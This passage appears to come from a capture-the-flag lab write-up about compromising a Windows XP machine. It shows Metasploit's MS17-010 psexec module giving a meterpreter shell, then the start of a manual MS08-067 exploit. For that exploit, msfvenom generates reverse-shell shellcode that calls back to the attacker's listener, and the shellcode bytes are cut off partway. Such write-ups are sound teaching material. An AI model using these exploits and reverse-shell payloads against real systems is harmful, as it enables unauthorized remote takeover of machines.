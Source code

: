 ```bash
SMBUser                                                                             no        The username to authenticate as
Payload options (windows/meterpreter/reverse_tcp):
 Name      Current Setting  Required  Description
 ----      ---------------  --------  -----------
 EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
 LHOST     192.168.232.139  yes       The listen address (an interface may be specified)
 LPORT     4444             yes       The listen port
 Exploit target:
 Id  Name
 --  ----
 0   Automatic
 msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.129.1.111
 RHOSTS => 10.129.1.111
 msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
 LHOST => 10.10.14.44
 msf6 exploit(windows/smb/ms17_010_psexec) > exploit

 meterpreter > shell
 Microsoft Windows XP [Version 5.1.2600]
 (C) Copyright 1985-2001 Microsoft Corp.
 C:\WINDOWS\system32>
```
### MS08-067 (Without Metasploit)

For exploiting the Samba manually, there is an exploit available on GitHub [__here__](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py). It’s a python script that
requires Impacket (you can install it on Kali from [__here__](https://github.com/CoreSecurity/impacket/)) and have to implement some of my own code with 
the default shellcode. Let’s make the custom exploit for exploitation. I will use msfvenom to make the 
shellcode.

```bash
 root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.44 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows                
 Found 11 compatible encoders
 Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
 x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
 Attempting to encode payload with 1 iterations of generic/none
 generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
 Attempting to encode payload with 1 iterations of x86/call4_dword_xor
 x86/call4_dword_xor succeeded with size 348 (iteration=0)
 x86/call4_dword_xor chosen with final size 348
 Payload size: 348 bytes
 Final size of py file: 1953 bytes
 shellcode =  b""
 shellcode += b"\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0"
 shellcode += b"\x5e\x81\x76\x0e\xa1\x97\xf8\xe2\x83\xee\xfc"
 shellcode += b"\xe2\xf4\x5d\x7f\x7a\xe2\xa1\x97\x98\x6b\x44"
 shellcode += b"\xa6\x38\x86\x2a\xc7\xc8\x69\xf3\x9b\x73\xb0"
 shellcode += b"\xb5\x1c\x8a\xca\xae\x20\xb2\xc4\x90\x68\x54"
 shellcode += b"\xde\xc0\xeb\xfa\xce\x81\x56\x37\xef\xa0\x50"
 shellcode += b"\x1a\x10\xf3\xc0\x73\xb0\xb1\x1c\xb2\xde\x2a"
 shellcode += b"\xdb\xe9\x9a\x42\xdf\xf9\x33\xf0\x1c\xa1\xc2"
 shellcode += b"\xa0\x44\x73\xab\xb9\x74\xc2\xab\x2a\xa3\x73"
 shellcode += b"\xe3\x77\xa6\x07\x4e\x60\x58\xf5\xe3\x66\xaf"
 shellcode += b"\x18\x97\x57\x94\x85\x1a\x9a\xea\xdc\x97\x45"
 shellcode += b"\xcf\x73\xba\x85\x96\x2b\x84\x2a\x9b\xb3\x69"
 shellcode += b"\xf9\x8b\xf9\x31\x2a\x93\x73\xe3\x71\x1e\xbc"
 shellcode += b"\xc6\x85\xcc\xa3\x83\xf8\xcd\xa9\x1d\x41\xc8"
 shellcode += b"\xa7\xb8\x2a\x85\x13\x6f\xfc\xff\xcb\xd0\xa1"
 shellcode += b"\x97\x90\x95\xd2\xa5\xa7\xb6\xc9\xdb\x8f\xc4"
```